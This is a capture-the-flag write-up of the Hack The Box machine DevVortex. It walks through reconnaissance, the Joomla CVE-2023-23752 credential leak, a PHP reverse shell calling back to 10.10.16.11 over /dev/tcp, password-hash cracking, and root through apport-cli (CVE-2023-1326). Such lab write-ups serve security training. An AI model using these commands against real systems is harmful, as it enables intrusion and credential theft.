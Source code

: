# DevVortex Writeup - by Thammanant Thamtaranon  
- DevVortex is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan, including version detection and OS fingerprinting:  
  `nmap -A -T4 -p- 10.10.11.242`  
![Nmap_Scan](Nmap_Scan.png)  
- To make things easier, I added `devvortex.htb` to my `/etc/hosts`.

## Scanning & Enumeration  
- I ran a directory scan using:  
  `dirsearch -u http://devvortex.htb`  
![Dirsearch_Scan](Dirsearch_Scan.png)  
- Unfortunately, nothing interesting showed up here.  
- Next, I decided to check for virtual hosts with:  
  `ffuf -u http://devvortex.htb -H "Host: FUZZ.devvortex.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac`  
![VHost](VHost.png)  
- This revealed a subdomain, `dev.devvortex.htb`, which I added to `/etc/hosts`.  
- Scanning the subdomain showed a Joomla administrator login page at `/administrator/`.  
![Login](Login.png)  
- A quick peek at `README.txt` confirmed it was running Joomla 4.x.  
![Version](Version.png)

## Exploitation  
- Searching for Joomla 4.x vulnerabilities, I came across **CVE-2023-23752**, which allows unauthenticated information disclosure via the REST API.  
- I tested this by sending a crafted request:  
  `curl -s http://dev.devvortex.htb/api/index.php/v1/config/application?public=true | jq`  
![CVE](CVE.png)  
- To my luck, it returned admin credentials for user `lewis`.  
- Logging into Joomla as `lewis`, I navigated to the template editor and created a new `.php` file to test command execution by running `id`.  
![ID1](ID1.png)  
- Visiting the file confirmed the command worked perfectly.  
![ID2](ID2.png)  
- I swapped the command for a PHP reverse shell payload:  
  `<?php shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.11/4444 0>&1'"); ?>`  
- This gave me a shell as `www-data`.  
![www-data](www-data.png)  
- Checking `/etc/passwd`, I found another user: `logan`.  
![PASSWD](PASSWD.png)  
- Using `lewis`’s database access, I connected to MySQL and dumped the users table, finding a hashed password for `logan`.  
![Hashed](Hashed.png)  
- I cracked the hash with John the Ripper using the rockyou wordlist.  
![Cracked](Cracked.png)  
- With the credentials, I SSH’d in as `logan` and captured the user flag.

## Privilege Escalation  
- Running `sudo -l` as `logan` showed I could execute `/usr/bin/apport-cli` as root.  
![SUDO](SUDO.png)  
- A quick search led me to **CVE-2023-1326**, an exploit allowing root shell via `apport-cli`.  
- I crafted a dummy crash file and launched `apport-cli`. Pressing `V` to view the report and typing `!/bin/bash` gave me an interactive root shell.  
![Root](Root.png)  
- Finally, I grabbed the root flag and completed the box.
